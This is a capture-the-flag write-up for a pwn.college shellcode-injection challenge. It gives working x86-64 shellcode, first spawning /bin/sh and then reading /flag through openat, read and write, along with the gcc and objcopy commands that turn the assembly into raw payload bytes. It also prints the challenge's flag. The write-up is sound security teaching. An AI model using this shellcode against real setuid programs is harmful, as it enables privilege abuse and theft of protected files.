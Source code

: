 # Basic Shellcode

## Challenge
Write and execute shellcode to read the flag!

## Solve
**Flag:** `pwn.college{sDyTHL9jK4IlqtKlfvx_p6MuCB3.ddTMywyNyAzNzEzW}`

#### Gathering Info
In the `/challenge` directory, we are given 3 files:
- `DESCRIPTION.md`  
- `binary-exploitation-basic-shellcode`  
- `binary-exploitation-basic-shellcode.c`

Using the previous challenges' experience, I directly run the executable file to gather info. This way it is more convinient.
> The output:
```
###
### Welcome to /challenge/./binary-exploitation-basic-shellcode!
###

This challenge reads in some bytes, modifies them (depending on the specific challenge configuration), and executes them
as code! This is a common exploitation scenario, called `code injection`. Through this series of challenges, you will
practice your shellcode writing skills under various constraints! To ensure that you are shellcoding, rather than doing
other tricks, this will sanitize all environment variables and arguments and close all file descriptors > 2.

In this challenge, shellcode will be copied onto the stack and executed. Since the stack location is randomized on every
execution, your shellcode will need to be *position-independent*.

Allocated 0x1000 bytes for shellcode on the stack at 0x7fff00c36410!
Reading 0x1000 bytes from stdin.
```

#### Aim
- Inject the shellcode which will print out the `/flag` file.
- The shellcode must be injected in binary format.
- It needs to be **position independent** since the stack location is randomized on every execution.

#### Procedure
I first created an assembly file which simply opens a new shell which was taught in the introductory video. I though the flag would be printed out if I open a new terminal session. But that was not the case. Anyways, the code I used was this:
```asm
mov rax, 59
lea rdi, [rip+binsh]
mov rsi, 0
mov rdx, 0
syscall
binsh:
.string "/bin/sh"
```
- The code **59** is for `execve` function call. Its syntax is:
    - `execve(address, NULL, NULL)`
    - `execve` is a fundamental `system call` in Unix-like operating systems that is used to **execute a program**. Its primary purpose is to completely replace the current running program within a process with a new program.
- But after reading the explanation, I understood why this was not working.
    - First of all, it opens a new shell which is not what the challenge wants. It wants us to read the flag directly.
    - Second, there is a fundamental problem with this function which is it replaces the current instance of the program. Therefore, it will stop the program which is supposed to give the flag.
- After asking `SensAI` for guidance, I understood that I have to create a script which reads out the flag directly. Since the `suid` bin is set for this executable, it can read out the flag if I inject the shellcode to do so.
    - Open the flag file for reading using the `openat` syscall.
    - Read from the file into the buffer on the stack.
    - Write buffer to `stdout`.
    - Finally, exit cleanly.
- The code used to achieve the same is as follows:
```asm 
.global _start
.intel_syntax noprefix
_start:
  mov rax, 257                    
  mov rdi, -100                   
  lea rsi, [rip+flag]             
  xor rdx, rdx                    
  xor r10, r10                    
  syscall                         

  
  mov rdi, rax
  sub rsp, 0x100
  mov rsi, rsp
  mov rdx, 0x100
  xor rax, rax                    
  syscall                        


  mov rdx, rax
  mov rdi, 1
  mov rax, 1                      
  syscall

  mov rax, 60
  xor rdi, rdi
  syscall

flag:
  .asciz "/flag"
  ```
- The next step is to inject this shellcode into the challenge executable. This is taught in the introductory video. The procedure is as follows:
    - First write the shellcode and save it in `.s` file.
    - Assemble it using `gcc`:
        - `gcc -nostdlib -static payload.s -o payload-elf`
    - The above command returns an ELF with our shellcode as its `.text`. We still need to extract it.
        - `objcopy --dump-section .text=payload-raw payload-elf`
    - The resulting `payload-elf` file contains the raw bytes of the shellcode.
    - We inject this as part of the exploits.

## New Learnings
- `lea` calculates addresses.
    - `lea rbx, [eax+ecx]` will add the values in the corresponding registers and store it in `rbx`.
    - `mov` can't achieve the same since the syntax does not allow it.
        - `mov rbx, [eax+ecx]` is invalid.
        - We can technically achieve this using `mov` but is very complicated and this is the standard way to do this.
- we calculate relative address using `rip` pointer. This ensures we always point to the same location irrespective of the memory location where the program starts.
    - address calculation used: `lea rsi, [rip+flag]` will first calculate `disp` of between and `rip` and `flag` and then add it to `rip`. Thus, the statement essentially stores the address of `flag` into `rsi`.
    - This ensure relative addresssing and is a standard way to achieve it.


## Resources 
- [Shellcode Injection: Introduction](https://www.youtube.com/watch?list=PL-ymxv0nOtqomtHqMqqgpuvWdVSs9NCBK&time_continue=1753&v=715v_-YnpT8&embeds_referring_euri=https%3A%2F%2Fpwn.college%2F&source_ve_path=MjM4NTE)
- SensAI
